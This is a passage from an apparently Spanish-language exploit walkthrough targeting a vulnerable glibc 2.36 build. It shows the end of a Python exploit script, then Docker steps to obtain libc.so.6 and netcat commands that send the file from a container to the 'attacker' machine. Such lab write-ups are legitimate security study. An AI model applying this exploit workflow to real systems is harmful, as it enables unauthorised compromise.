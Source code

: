 ~~~ python
    """A memory region."""

    start: int
    stop: int
    permissions: str
    path: str

    @property
    def size(self) -> int:
        return self.stop - self.start

Exploit()
~~~

Antes de ejecutar este exploit modificado, necesitaremos contar con la versión vulnerable de `libc.so.6`

### Obtaining `libc` Specific Version - `debian:12.4` Docker Container

Podemos obtener la versión vulnerable de `glibc.so` desplegando el siguiente contenedor en nuestra máquina

~~~ bash
sudo docker run -it --rm debian:12.4 
~~~

Haremos una actualización básica e instalaremos las herramientas que utilizaremos

~~~ bash
root@2431b1b14659:/# apt update
root@e8706a7a5875:/# apt install ncat binutils -y
~~~

Dentro del contenedor podemos listar la versión exacta para la librería, en este caso vemos que es la librería vulnerable

~~~ bash
root@2431b1b14659:/# strings libc.so.6 | grep "release version"
GNU C Library (Debian GLIBC 2.36-9+deb12u4) stable release version 2.36.
~~~

Ahora transferiremos la librería a nuestro directorio donde realizaremos la explotación, desde la máquina atacante pondremos un puerto a la escucha

> Atacante

~~~ bash
nc -lnvp 443 > libc.so.6
~~~

Desde nuestro contenedor, usaremos `netcat` para enviar la librería a la IP de `docker` de nuestra máquina atacante

> Contenedor

~~~ bash
root@2431b1b14659:/# nc -nv 172.17.0.1 443 < /lib/x86_64-linux-gnu/libc.so.6
~~~
